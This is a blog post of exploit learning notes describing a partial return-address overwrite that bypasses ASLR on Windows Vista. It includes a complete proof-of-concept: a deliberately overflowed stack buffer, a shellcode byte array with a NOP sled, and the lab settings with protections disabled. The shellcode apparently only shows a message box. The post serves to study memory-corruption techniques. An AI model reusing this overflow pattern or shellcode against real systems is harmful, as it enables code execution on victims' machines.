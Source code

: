 ```yaml
---
title: Exploit learning notes 018 using partial overlay location
description: exploit partial override to locate shellcode
date: 2020-11-26 17:54:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ASLR
    - off-by-word
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-018-using-partial-overlay-location/)

## Principle

- The image randomization instructions randomize the full two bytes of the image load base address, the consequence of this is that the springboard is always available, so you can use this to bypass ASLR
- If you attack memcpy, you can control the return value between `0xXXXX0000` and `0xXXXXFFFF`, and if you attack str-like function attacks, you can control the address to one between `0xXXXX0100` and `0xXXXX00FF`.

## Process

- first find a jmp eax assembly code within the compiled program, followed by the low word of its address as the `off by word` address, fill in the shellcode
- Calculate the buffer size, after the overflow will be normal

## Code

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## Start experiment

> Experimental environment: system: Windows Vista SP0, system DEP status: Optin default, compiler: Visual Studio 2008, optimization: disable optimization, GS option: off, DEP option: /NXCOMPAT:NO, build version: release

- Compile the program, run it, the window pops up directly and succeeds, and restart the same, as shown in the picture

![Success](https://s3.ax1x.com/2020/11/28/Dyps2t.png)

